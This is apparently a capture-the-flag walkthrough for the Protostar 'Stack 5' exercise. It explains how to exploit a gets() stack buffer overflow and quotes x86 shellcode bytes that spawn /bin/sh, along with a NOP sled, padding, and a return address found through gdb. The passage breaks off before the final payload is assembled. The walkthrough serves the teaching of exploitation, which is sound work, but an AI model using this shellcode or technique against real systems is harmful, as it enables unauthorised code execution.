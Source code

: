 ## Stack 5

Provided code
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  char buffer[64];

  gets(buffer);
}
```

Now we know we can force the program to jump to code anywhere in the program, but where should we jump this time?
To break this challenge, we are going to need to inject our own shellcode into the program, and jump to it manually

shellcode = *`\x6a\x0b\x58\x99\x31\xc9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`*
This was taken from shell-storm. We know the architecture is a 32 bit linux system, this shell code executes /bin/sh

One place we can put this shellcode is in the buffer, its **21**)) bytes, so if we pad the buffer with random data before it, it should work!

So let's craft our payload
Like before, we will need to pad our payload to **76** bytes before our return address. 
This is where we introduce a nopsled. **0x90** is an intel command that means _do nothing, go to next command_. So if we just fill our buffer with these, followed by our shellcode, and if we jump to the middle our buffer, it will slide down our nops, into our shellcode. And then pop a shell.

But what address do we want to jump to? 
**ASLR** stands for Address Space Layout Randomisation, thankfully it isn't enabled on this sytem, so we can find where the stack is.

To do this we can open the program in gdb, and enter AAAAAAAAA.... 
Now when the program crashes, we can examine the stack by typing `x/64x $esp`

This command does a few things. the x stands for *examine* and is used to examine memory in the stack.
The 64 is how many words (4 bytes) we want to display, and the x stands for hexadecimal, and sets the output format to print out the memory as hex numbers. The $esp is the starting address for the printing. **$esp** is the *stack pointer* register, and contains an address to the beginning of the stack.

```
0xbffff7a0:	0xbffff7b0	0xb7ec6165	0xbffff7b8	0xb7eada75
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff800:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff810:	0x41414141	0xffffff00	0xb7ffeff4	0x08048232
```
This output is shown so the left column is the address, and right right column is the data, spread in 4 byte segmants
As we can see, our buffer starts at 0xbffff7b0. This is where our shellcode will be, so we can set this address as our return address.
